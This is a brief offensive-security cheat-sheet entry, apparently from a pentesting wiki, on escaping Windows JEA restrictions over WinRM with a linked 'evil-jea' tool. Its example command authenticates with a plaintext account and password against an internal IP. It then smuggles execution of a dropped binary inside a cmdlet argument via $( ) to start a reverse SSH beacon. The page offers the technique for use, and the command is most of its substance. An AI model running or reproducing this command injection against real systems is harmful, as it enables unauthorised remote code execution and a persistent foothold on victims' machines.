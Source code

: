 # WINRM

### JEA

{% embed url="https://github.com/sashathomas/evil-jea" %}

Call `info` command, analyze functions and avaible cmdlets

Example,  run rssh beacon

```bash
evil-jea run adfs_svc 'S3cur!ty' 192.168.20.15   -c 'Get-AsciiArt $(C:\Users\adfs_svc\Documents\bi.exe | Out-String)'
```
